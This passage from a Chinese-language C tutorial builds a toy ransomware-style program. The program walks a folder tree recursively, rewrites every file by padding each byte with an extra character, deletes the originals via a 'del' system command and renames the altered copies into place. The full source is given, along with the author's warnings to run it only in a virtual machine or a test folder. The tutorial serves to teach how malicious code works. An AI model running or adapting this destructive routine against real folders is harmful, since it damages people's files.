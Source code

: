 注意这里的 “.” 代表当前文件夹，所以需要过滤掉该点，否则陷入无限递归。

*   findData.cFileName[0] != ‘.’
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaibkNWevJJmJSePZeqlDECx1xMbgZhdpDoRPfV8aY7SdVrIdCx6k1mOxQ/640?wx_fmt=png)

最终运行结果如下图所示，将当前文件夹内所有内容显示出来。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaibUCMxMm3wWGcKpk5g3ftSFcUr4XbAOoHSkjfaWjVN8tTkEw7p6FdJPg/640?wx_fmt=png)

比如 Debug 文件夹中内容，和我们的获取结果是一一对应的。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaib90TqqAIIAqrb2gwwPzteqQicACeflaEjMLlS0u71E4mpsp5NWQwjIlg/640?wx_fmt=png)

第七步，实现文件加密功能。  
作者将文件夹改为指定的目录，再次强调虚拟机中运行或者指定某个不重要的文件夹进行测试。具体修改是在 findFile 函数中增加了 jiami 函数的调用。

注意：使用二进制打开可以复制大型文件如. exe 文件、音频视频文件等，所以文件操作改为 “rb” 和“wb”。由于某些文件会很大，我们文件读写换了一种操作，按字符读入及写入。每一种写法和优化都是有原因的，这个过程需要你去慢慢琢磨，包括逆向分析也一样，操作系统或编译器、恶意代码为什么这么优化，我们都需要慢慢去分析。

完整代码如下：

```
#include <stdio.h>#include <string.h>#include <windows.h>#include <stdlib.h>//文件加密函数 参数-文件名字void jiami(char* fileName, char* pathName){	FILE* fp = NULL;                  //文件指针变量	int size = 0;                     //文件大小	//打开文件	//注意：使用二进制打开可以复制大型文件如.exe文件，音频视频文件等	fp = fopen(fileName, "rb");       //打开可读写的文件	if (NULL == fp) {		printf("打开文件失败\n");		return;	}	printf("打开 %s 文件成功!\n", fileName);	//获取文件大小	fseek(fp, 0, SEEK_END);                   //设置光标到文件末尾	size = ftell(fp);                         //计算光标位置距离文件头字节数	fseek(fp, 0, SEEK_SET);                   //设置光标位置到文件头	printf("文件大小为：%d字节！\n", size);	//获取文件所有内容	char code = 'a';	char ch;	char temp[256];	memset(temp, 0, 256);	sprintf(temp, "%s\\%s", pathName, "test");	printf("%s\n", temp);	FILE* fpw = fopen(temp, "wb");         //写入文件	while (!feof(fp)) { 		ch = fgetc(fp);		fputc(ch, fpw);		fputc(code, fpw);		//printf("%c\n", ch);	}	//保存关闭	fclose(fp);	fclose(fpw);	//替换文件	char commend[1024];	memset(commend, 0, 1024);	sprintf(commend, "del \"%s\"", fileName);     //访问路径包含空格增加双引号	printf("%s\n", commend);	system(commend);	rename(temp, fileName);                       //调用C语言rename函数重命名文件	printf("\n");	return;}//遍历文件夹找到每个文件 参数-文件夹名字void findFile(char* pathName){	/* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */	//1.设置要找的文件名 通配符实现	char findFileName[256];	memset(findFileName, 0, 256);                   //清空数组	sprintf(findFileName, "%s\\*.*", pathName);	printf("要找的文件名是：%s\n", findFileName);	//2.获取目录下第一个文件	WIN32_FIND_DATA findData;                    //定义结构体	HANDLE hFile = FindFirstFile(findFileName, &findData);	//判断返回值等于-1(INVALID_HANDLE_VALUE)	if (INVALID_HANDLE_VALUE == hFile) {		printf("查找文件失败!\n");		return;	}	//如果成功进入死循环继续查找下一个文件	else {		int ret = 1;		char temp[256];		while (ret) {			//如果找到的是个文件夹 则需要继续查找该文件夹内容			if (findData.dwFileAttributes == FILE_ATTRIBUTE_DIRECTORY) {				if(findData.cFileName[0] != '.') {					//文件夹拼接=原始路径+新文件夹路径					memset(temp, 0, 256);					sprintf(temp, "%s\\%s", pathName, findData.cFileName);					printf("找到一个文件夹：%s\n", temp);					Sleep(1000);                             //暂停1秒钟					findFile(temp);				}			}			else { //如果是文件 则加密文件				memset(temp, 0, 256);				sprintf(temp, "%s\\%s", pathName, findData.cFileName);				printf("找到一个文件：%s\n", temp);				//加密文件				jiami(temp, pathName);			}			//查找下一个文件			ret = FindNextFile(hFile, &findData);		}	}	return;}int main(){	char buff[256] = { 0 };	GetCurrentDirectory(256, buff);	printf("当前目录是：%s\n\n", buff);	//加密指定文件夹目录 建议使用虚拟机执行	findFile("C:\\Users\\xiuzhang\\Desktop\\文件夹加密");	return 0;}
```
